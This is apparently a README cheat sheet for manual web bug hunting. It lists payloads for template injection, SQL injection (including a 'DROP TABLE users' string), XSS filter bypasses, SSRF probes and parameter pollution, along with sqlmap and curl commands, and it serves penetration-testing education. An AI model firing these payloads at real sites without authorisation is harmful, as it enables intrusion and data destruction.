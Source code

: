# Bug Hunting Manual Testing

This README file provides a step-by-step guide on how to manually test for common web application vulnerabilities. Each section includes the payloads, testing methods, and tools you can use to identify security flaws in web applications.

## Table of Contents

1. [Email Address Payloads](#email-address-payloads)
2. [SQL Injection](#sql-injection)
3. [XSS (Cross-Site Scripting)](#xss-cross-site-scripting)
4. [SSRF (Server-Side Request Forgery)](#ssrf-server-side-request-forgery)
5. [Parameter Pollution](#parameter-pollution)
6. [Tools & Methods for Testing](#tools--methods-for-testing)

---

## Email Address Payloads

Test if email inputs are vulnerable to template injection, SQL injection, or other forms of code injection. Use the following payloads for testing:

### Template Injection
- `"<%=7*7%>"@example.com`
- `test+(${{7*7}})@example.com`

### SQL Injection
- `"OR 1=1 --'"@example.com`
- `"Mail');DROP TABLE users;--"@example.com`

### XSS Injection in Email
- `test+(<script>alert(0)</script>)@example.com`
- `test@example.com(<script>alert(0)</script>).com`
- `"<script>alert(0)</script>"@example.com`

### Recommended Testing Steps:
1. Manually input the payloads into email fields on registration, login, or any other user input form.
2. Verify if the application processes these payloads and returns unexpected behavior, such as executing scripts or modifying queries.
3. In case of email-based vulnerabilities, check if the system sends malformed or unsafe emails that could affect users.

---

## SQL Injection

SQL Injection vulnerabilities occur when user input is directly included in SQL queries without proper sanitization. Use the following payloads to test:

### Payloads:
- `"OR 1=1 --'"@example.com`
- `"Mail');DROP TABLE users;--"@example.com`

### Recommended Testing Steps:
1. Identify input fields or URL parameters that might be vulnerable (e.g., login forms, search fields).
2. Test with basic SQL injection payloads like `' OR 1=1 --` to check if the application bypasses authentication.
3. Use `sqlmap` for more advanced exploitation:

```bash
sqlmap -u 'https://example.com/login.php?op=verify' --method POST --data="login=yourusername&password=yourpassword" --dbms=mysql --dbs --no-cast
```

---

## XSS (Cross-Site Scripting)

Cross-Site Scripting (XSS) allows an attacker to inject malicious scripts into webpages viewed by other users. The following payloads are designed to test for reflective and stored XSS vulnerabilities.

### Payloads:
1. `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`
2. `"><svg/onload=alert(1)><img src=x onerror=alert(2) />`
3. `<script src="https://trustedsite.com/jsonp?callback=alert(1)"></script>`
4. `"><script%00>alert(1)</script>`
5. `<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>`
6. `#"><img src=x onerror=alert(1)>`
7. `+ADw-SCRIPT+AD4-alert(1)+ADw-/SCRIPT+AD4-.`

### Recommended Testing Steps:
1. Inject payloads into input fields, URL parameters, or any areas that render user input.
2. Manually check for script execution in the browser.
3. Use **curl** for automated testing in the following way:

```bash
curl -G "http://target-site.com/vulnerable-page" --data-urlencode "param=<script>alert('XSS')</script>" -H "User-Agent: your-user-agent" -v
```

### Browser Testing:
- While `curl` is useful for automation, test XSS vulnerabilities in a real user environment by manually inspecting the application in your browser. Observe how different browsers react to XSS payloads.

---

## SSRF (Server-Side Request Forgery)

SSRF vulnerabilities occur when an attacker can make unauthorized requests from the server-side. Use the following payloads to test if the application allows SSRF:

### Payloads:
- `John.doe@abc123.burpcollaborator.net`
- `John.doe@[127.0.0.1]`

### Recommended Testing Steps:
1. Inject SSRF payloads into URL parameters or input fields that are intended for an email or URL.
2. Check if the server processes requests to internal resources like `localhost` or external resources like Burp Collaborator.
3. Observe if the server returns sensitive data or allows access to internal services.

---

## Parameter Pollution

Parameter pollution occurs when an attacker manipulates the input parameters, often to bypass security controls or inject additional data. The following payload can be used to test for parameter pollution:

### Payload:
- `victim&email=attacker@example.com`

### Recommended Testing Steps:
1. Try adding extra parameters to URL queries, especially in GET requests.
2. Check if the application processes these polluted parameters correctly and allows unauthorized actions (e.g., login as another user).
3. Review the application’s response to see if any internal validation is bypassed.

---

## Tools & Methods for Testing

### Recommended Tools:
1. **Burp Suite**: A powerful tool for intercepting HTTP requests and automating common attacks like SQL injection and XSS.
2. **sqlmap**: An automatic tool to test and exploit SQL injection vulnerabilities.
3. **Curl**: For automated testing, especially useful in testing XSS payloads and parameter manipulation.
4. **OWASP ZAP**: Another option for testing web application vulnerabilities, including XSS and SQL injection.

---

### Conclusion
Testing for common vulnerabilities is essential for identifying potential flaws in web applications. Always combine automated tools with manual testing to get the most accurate results. If you find any vulnerabilities, ensure to follow responsible disclosure practices.

